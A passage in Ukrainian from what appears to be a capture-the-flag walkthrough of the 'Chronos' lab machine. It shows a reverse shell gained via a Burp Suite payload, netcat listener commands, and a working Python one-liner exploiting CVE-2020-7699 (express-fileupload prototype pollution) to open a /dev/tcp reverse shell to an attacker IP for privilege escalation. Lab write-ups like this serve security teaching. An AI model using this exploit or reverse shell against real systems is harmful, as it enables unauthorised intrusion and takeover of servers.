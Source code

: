 ```
3WEL9tDt4agr4yQoWrnVmQpEvrDFh8qn8EWtn6ysjwJas1VRBvP5LUEkfUa2SecbKCGvz1Q6ykdYZf3vXYi3D3z4GKAUF2bPsyvZiNH
```

Відправляємо запит через Burp Suite з цим payload.

📌 **Результат**: У терміналі з netcat отримуємо **reverse shell**!

```bash
$ pwd
/opt/chronos
```

---

### **Крок 6: Дослідження файлової системи та виявлення вразливості**

Після отримання доступу досліджуємо файлову систему:

```bash
$ ls -la /opt/
chronos
chronos-v2
```

Виявляємо директорію `/opt/chronos-v2/backend/`. Переглядаємо файл `package.json`:

```bash
$ cat /opt/chronos-v2/backend/package.json
```

📌 **Важливе виявлення**: Виявлено модуль **express-fileupload версії 1.1.7-alpha.3**, який має критичну вразливість:

- **CVE-2020-7699** — Remote Code Execution через Prototype Pollution
- **CWE-400** — Uncontrolled Resource Consumption

---

### **Крок 7: Ескалація привілеїв через CVE-2020-7699**

На атакуючій машині запускаємо новий **netcat listener** на іншому порту:

```bash
sudo ncat -l -p 8021
```

У поточному reverse shell (порт 8020) виконуємо експлойт для **CVE-2020-7699**:

```bash
python3 -c "import requests; cmd='bash -c \"bash -i >& /dev/tcp/10.0.2.4/8021 0>&1\"'; requests.post('http://127.0.0.1:8080', files={'__proto__.outputFunctionName': (None, f\"x;process.mainModule.require('child_process').exec('{cmd}');x\")}); requests.get('http://127.0.0.1:8080')"
```

⚠️ **Важливо**: Замініть `10.0.2.4` на IP вашої атакуючої машини.

📌 **Результат**: У новому терміналі (порт 8021) отримуємо shell з підвищеними привілеями!
